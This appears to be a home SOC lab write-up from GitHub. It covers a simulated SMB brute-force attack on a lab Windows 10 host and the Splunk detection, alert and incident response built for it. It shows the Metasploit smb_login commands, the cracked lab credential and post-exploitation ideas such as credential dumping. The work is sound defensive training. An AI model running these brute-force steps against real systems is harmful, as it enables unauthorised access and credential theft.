





# Attack 1: Brute Force (SMB)

> Part of the [Home SOC Environment](https://github.com/khaled-sec/Home-SOC-Environment) — Module 04: Attack Simulation and Detection.

**Tool:**  Metasploit (`auxiliary/scanner/smb/smb_login`)

**MITRE ATT&CK:** T1110 – Brute Force

**Target:** Domain-joined Windows 10 — `192.168.1.20`

**Severity:** High

---

## Table of Contents

- [Scenario](#scenario)
- [Step 1: Successful Brute Force — Metasploit](#step-1-successful-brute-force--metasploit)
- [Step 2: Splunk Detection](#step-2-splunk-detection)
- [Step 3: Alert Configuration](#step-3-alert-configuration)
- [Post-Exploitation Potential](#post-exploitation-potential)
- [Incident Response: Next Steps](#incident-response-next-steps)
- [What I Learned](#what-i-learned)
- [Skills Demonstrated](#skills-demonstrated)

---

## Scenario

With Splunk now ingesting Security, Application, and Sysmon logs from Windows 10 (Module 03), the next step was to simulate a real authentication attack against the domain-joined endpoint and validate that Splunk could detect it. The attack targets SMB (port 445) , this exercise focuses on Windows authentication logging specifically.

---

## Step 1: Successful Brute Force — Metasploit


```
msf6 > use auxiliary/scanner/smb/smb_login
msf6 > set RHOSTS 192.168.1.20
msf6 > set SMBDomain ad
msf6 > set USER_FILE /home/kali/user.txt
msf6 > set PASS_FILE /home/kali/password.txt
msf6 > run
```

Result:

```
[+] 192.168.1.20:445 - Success: 'ad\Khaled:Khaled1111'
[*] Bruteforce completed, 1 credential was successful.
```

**Confirmed valid credentials:** `AD\Khaled : Khaled1111`




An interactive SMB session was then opened using the recovered credentials, confirming full remote access to the endpoint:



---

## Step 2: Splunk Detection

###  query

```spl
index=endpoint_win10 (EventCode=4625 OR EventCode=4624)
| stats count(eval(EventCode=4625)) as Failed count(eval(EventCode=4624)) as Success by Account_Name
| where Failed>=5 AND Success>0
```

Returned a single matching row: `Khaled` — 56 failed attempts, 14 successful, confirming the brute-force-then-success pattern.



---

## Step 3: Alert Configuration

- **Title:** Brute Force Detected
- **Description:** 5+ failed logons followed by a successful logon for the same account
- **Alert Type:** Scheduled, Cron: `*/5 * * * *` (every 5 minutes)
- **Trigger Condition:** Number of Results > 0
- **Trigger Action:** Add to Triggered Alerts
- **Throttle:** 2 minutes
- **Severity:** High



Verified in **Activity → Triggered Alerts** that the alert is enabled and fires on schedule against live data.



---


## Post-Exploitation Potential

- Execute commands remotely (e.g. via `psexec`-style tools)
- Perform local credential dumping (SAM/LSA secrets) from this machine

---

## Incident Response: Next Steps

If this were a real detection (not a controlled lab exercise), the alert firing would trigger the following response, roughly in order:

### 1. Contain
- **Disable or reset the compromised account** (`AD\Khaled`) immediately — via Active Directory Users and Computers on the Domain Controller.
- **Isolate the endpoint** (`192.168.1.20`) from the network .
- **Kill any open sessions** using the compromised credentials — the SMB session captured in this exercise (`sessions 3` in Metasploit) would be terminated on the real host by resetting the account and forcing logoff.

### 2. Investigate
- **Pull the source IP** of the attack from the Security event (`Source_Network_Address` field on 4625/4624) to identify the attacking host on the network.
- **Check Sysmon Event ID 3** (Network Connection) on the endpoint for connections to port 445 from that source IP, to independently confirm the SMB brute force and its exact timing.
- **Review what the account did after authenticating** — check for new processes (Sysmon Event ID 1), new services created (Event ID 7045), or scheduled tasks, which would indicate the attacker moved beyond simple access into execution.
- **Check for lateral movement** — search across `endpoint_win10` (and any other forwarders added later) for the same source IP or the same account authenticating to other hosts.

### 3. Recover & Harden
- **Enforce a strong password policy and account lockout threshold** in AD — this attack succeeded largely because there was no lockout after repeated failures; a lockout policy (e.g. 5 attempts / 15-minute lockout) would have stopped the brute force outright.

---

# What I Learned

- Built a working failed→success correlation detection in SPL from scratch, iterating from a broken query to a validated one.
- Configured a scheduled, throttled Splunk alert using a cron schedule.

---

# Skills Demonstrated

- SMB Authentication & Domain Context Troubleshooting
- SPL Query Development & Debugging
- Windows Security Log Analysis
- SIEM Alert Engineering (Scheduled + Throttled)
- Severity Classification / Risk Scoping
- MITRE ATT&CK Mapping (T1110)
